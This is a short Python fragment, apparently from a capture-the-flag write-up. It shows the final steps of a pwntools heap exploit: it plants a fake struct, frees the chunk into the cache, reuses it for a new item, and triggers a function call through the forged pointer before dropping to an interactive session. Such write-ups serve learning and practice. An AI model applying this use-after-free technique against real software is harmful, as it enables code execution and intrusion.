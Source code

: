 ```python
# add name to item_0 which contains our faked struct
assign_name(r, 0, fake_struct)
# free name so it ends up in cache
remove_name(r, 0)
# add a new item which reuses our faked struct chunk
add_item(r)
# add a name so itemlist[select]->itemname != NULL passes
assign_name(r, 1, b"PogChamp")
# trigger function call
view_item(r, 1)

r.interactive()

```